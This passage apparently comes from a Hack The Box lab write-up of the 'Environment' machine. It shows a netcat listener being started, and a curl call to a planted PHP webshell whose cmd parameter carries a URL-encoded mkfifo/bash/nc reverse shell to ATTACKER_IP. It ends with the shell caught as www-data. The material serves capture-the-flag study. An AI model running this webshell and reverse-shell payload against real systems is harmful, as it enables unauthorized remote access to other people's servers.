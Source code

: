 ![](images/Pasted%20image%2020250720184731.png)

A `nc` listener is started on the attack host.

```
fcoomans@kali:~/htb/environment$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
```

And the reverse shell is passed to the `cmd` parameter in my webshell.

```
fcoomans@kali:~/htb/environment$ curl -s "http://environment.htb/storage/files/8f01f44e140d7b693b4a655ad4e9de9b.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20ATTACKER_IP%204444%20%3E%2Ftmp%2Ff"
```

### 💰 Post Exploitation

#### 👣 Foothold as www-data

The `nc` listener catches the reverse shell. 

```
fcoomans@kali:~/htb/environment$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.11.67] 50346
bash: cannot set terminal process group (916): Inappropriate ioctl for device
bash: no job control in this shell
www-data@environment:~/app/storage/app/public/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
